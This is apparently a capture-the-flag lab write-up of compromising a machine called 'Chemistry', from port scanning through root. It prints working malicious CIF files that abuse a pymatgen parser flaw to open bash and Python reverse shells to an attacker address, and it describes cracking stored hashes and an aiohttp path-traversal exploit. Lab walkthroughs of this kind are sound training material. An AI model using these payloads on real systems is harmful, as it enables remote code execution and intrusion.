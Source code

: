 ## Chemistry
![Alt text](/assets/2025-03-18-Chemistry/image-25.png)  
# Walkthrough
First we do a nmap scan:  
![Alt text](/assets/2025-03-18-Chemistry/image.png)  
Two ports open:  22 and 5000. Some service is hosted on the port 5000.  
![Alt text](/assets/2025-03-18-Chemistry/image-1.png)  
Before trying to navigate the webapp, i launched a fuzz scan to look if any subdirectory can be found at that address.  
![Alt text](/assets/2025-03-18-Chemistry/image-2.png)  
Five findings: login, logout, register, dashboard and upload.  I'll keep that in mind for later.  
  
The webapp seems to host an application to analyze CIF files, some file format used to store and analyze crystallographic informations.  
It's possible to register a new user:  
![Alt text](/assets/2025-03-18-Chemistry/image-3.png)  
On this page it's possible to upload a new CIF file. The first thing that came up in my mind was the possibility of uploading a reverse shell, but I  need two things:  
1) The possibility of creating one in this CIF file --> I have to analyze how a CIF file is formatted;  
2) The possibility to call the file on the remote server once uploaded;  
  
Fortunately, there is a demo file that can be downloaded on the webapp. I did that and saw the CIF format:  
![Alt text](/assets/2025-03-18-Chemistry/image-4.png)  
Not too easy.  
For the second point I tried to reupload this file to see how it was stored on the webapp:  
![Alt text](/assets/2025-03-18-Chemistry/image-5.png)  
And then by clicking on "view":  
![Alt text](/assets/2025-03-18-Chemistry/image-6.png)  
So a new subdirectory is created at each upload and it is possible to reach it with a GET request.  
The answer to the secont point is then solved, but still it's not clear if it is really possible to upload a reverse shell in this CIF format.  
Before diving into (lots) of web browsing, I tried to see if there is a sanitization of the file uploading. If not, I can simply upload a php web shell saving lots of time.  
![Alt text](/assets/2025-03-18-Chemistry/image-7.png)  
That was the server's answer.  
I then tried to do the same thing but with Burp in the middle, to analyze the packet exchange and see if something useful pops up.  
As long as I could see, there was nothing useful. The only thing to notice was that to delete a file there is a call to the API */delete_structure/{ID}*. Also probably the files are only stored for one session.   
  
At this point I had to check if there exist the possibility of hide a reverse shell in this type of format.  
I found this repo:  https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f.  
It's possible to hide code inside the CIF file that will allow a remote code execution.  
I copy-pasted the code and hide inside the code to open a bash reverse shell:  
```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -i >& /dev/tcp/10.10.14.221/4444 0>&1");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```  
There is a problem: with this code, also after putting a netcat shell on listening, I couldn't get a reverse shell.  
Struggled a bit, but then I thought that maybe the remote shell isn't a bash shell. Because this vulnerability is possible because exploits a python module, I tried to do the same, but with a python reverse shell: 
```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.11.221",4444)); os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```  

Neither this is working. After (too) many tries I simply discovered that there was a formatting problem in the first exploit tried.  
In the end, i got a reverse shell in bash...  
![Alt text](/assets/2025-03-18-Chemistry/image-8.png)  
I proceded to upgrade the shell with the classical:  
```python
script /dev/null -c /bin/bash
^Z
stty raw -echo; fg
*and then inputing "screen"*
```  
There is a user called *rosa* with the user flag, but my user (app) can't read it. I have to do some enumeration.  
![Alt text](/assets/2025-03-18-Chemistry/image-9.png)  
I tried to cat some evergreen files, as /etc/hosts /etc/shadow /etc/passwd, but there is nothing useful. Also, sudo does exist, but i don't know the password yet. 
I found a file called *app.py* with a password (of the Flask app) in cleartext:  
![Alt text](/assets/2025-03-18-Chemistry/image-10.png)  
Tried to see if that is the sudo password, but unfortunately that is not the case.  
I didn't know the use of the Flask secret key, but i read that *"Secret key is only used to protect user session data in flask, afaik. As in - cookies and whether user is logged in or not, it usually does not protect very sensitive information. And its not generally used to protect any persistent information. Meaning you can just generate this key randomly at startup."*, so it shouldn't be very useful unfortunately.  
But there is a sqlite3 database somewhere. Found it in a directory and analyzed the content:  
![Alt text](/assets/2025-03-18-Chemistry/image-11.png)  
There I found the user credentials, with the password hashed:  
![Alt text](/assets/2025-03-18-Chemistry/image-12.png)  
I decrypted the rosa password using john and the wordlist rockyou.txt. The password is **unicorniosrosados**.  
I could login via ssh with the rosa's credentials and was able to get the user flag:  
![Alt text](/assets/2025-03-18-Chemistry/image-13.png)


## Privilege escalation
It could be useful for later, let's keep in mind that other hashes were stored in the user table in the sqlite database (also the admin ones).  
Tried to do some basic PE checks, but user rosa is not in the sudoers.  
I transfered the linpeas script on rosa and launched it. I also started the hash cracking on the other hashes found in the database.  
![Alt text](/assets/2025-03-18-Chemistry/image-14.png)  
![Alt text](/assets/2025-03-18-Chemistry/image-15.png)  
I already encountered that CVE, but that doesn't really lead to anything useful.  
Other than that, linpeas couldn't find other interesting findings.  
John found these other credentials, got to see if one of this belongs to the admin:  
![Alt text](/assets/2025-03-18-Chemistry/image-16.png)  
None of this users has access to the machine (also verifiable by looking at /etc/hosts), but maybe these credentials could be useful later on.  
  
By lookin again at the linpeas report, I noticed a running service on port 8080:  
![Alt text](/assets/2025-03-18-Chemistry/image-17.png)  
I couldn't access it from the external network, so I had to do some pivoting. Socat of course was not installed, so i simply did a port forwarding:  
![Alt text](/assets/2025-03-18-Chemistry/image-18.png)  
The command should be:  
```python
ssh -L -N 5544:localhost:8080 rosa@10.10.11.38
```  
![Alt text](/assets/2025-03-18-Chemistry/image-19.png)  
  
From this new webapp I can only see the running and stopped services on the remote machine:  
![Alt text](/assets/2025-03-18-Chemistry/image-20.png)  
I looked at these services looking for something suspicious, but i could't get anything useful.  
I then tried to nmap this new discovered port:  
![Alt text](/assets/2025-03-18-Chemistry/image-21.png)  
The nmap discoveres the aiohttp version 3.9.1. I took a look online to find known CVE and i found:  https://github.com/wizarddos/CVE-2024-23334  
  
I should be able to read a arbitrary files with this PoC.  
To make it work I need a static directory on the remote application. I did a brief fuzzing:  
![Alt text](/assets/2025-03-18-Chemistry/image-22.png)  
  
And then launched the script:  
![Alt text](/assets/2025-03-18-Chemistry/image-23.png)  
The scripts works as I'm able to read the /etc/hosts. Let's capture the root flag! 
  
![Alt text](/assets/2025-03-18-Chemistry/image-24.png)




